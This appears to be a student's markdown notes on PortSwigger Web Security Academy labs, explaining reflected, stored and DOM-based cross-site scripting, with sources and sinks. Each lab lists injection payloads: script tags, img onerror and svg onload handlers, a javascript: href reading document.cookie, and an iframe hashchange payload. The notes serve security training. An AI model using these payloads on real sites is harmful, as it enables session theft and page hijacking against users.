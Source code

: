 # DOM-Based XSS  Cross-site scripting

https://portswigger.net/web-security/all-labs#cross-site-scripting


### LAB: Reflected XSS into HTML context with nothing encoded

```
Enter the following into the search box: 
Payload : '</h1><script>alert(1)</script>
```

### Lab: Stored XSS into HTML context with nothing encoded
```
Enter the following into the comment box: 
 - Payload: comment=<script>alert(2)</script>
```



### Lab: DOM XSS in document.write sink using source location.search

A website takes something from the URL (like a search term),
And then shows it on the page using JavaScript,Without checking if it's safe.

✅ Two Important Parts:

1. Source – Where the user input comes from
   Example: location.search → This gives the part after ? in the URL.
   For example:
```
   https://example.com/page?name=hello
   location.search → "?name=hello"
```

2. Sink – Where the data is used/executed.
   Example: document.write() → This writes HTML to the page.
   If we use it directly with location.search, it can be dangerous.



Payload  : 
```
- ABC"><img src="a" onerror=alert(1)>
- ABC"><svg onload=alert(1)>
```



### Lab: DOM XSS in innerHTML sink using source location.search

Note : innerHTML we cannot insert any script tag.

Payload  : 
```
- <img src="a" onerror=alert(1)>
```


### Lab: DOM XSS in jQuery anchor href attribute sink using location.search source

Payload :
<a href="javascript:alert(document.cookie)">Click me</a>

```
javascript:alert(document.cookie)
```

### Lab: DOM XSS in jQuery selector sink using a hashchange event
Payload :

<script>
    $(window).on('hashchange', function(){
        var post = $('section.blog-list h2:contains(' + decodeURIComponent(window.location.hash.slice(1)) + ')');
           if (post) post.get(0).scrollIntoView();
                        });
                    </script>

```
<iframe src="https://YOUR-LAB-ID.web-security-academy.net/#" onload="this.src+='<img src=x onerror=print()>'"></iframe>
```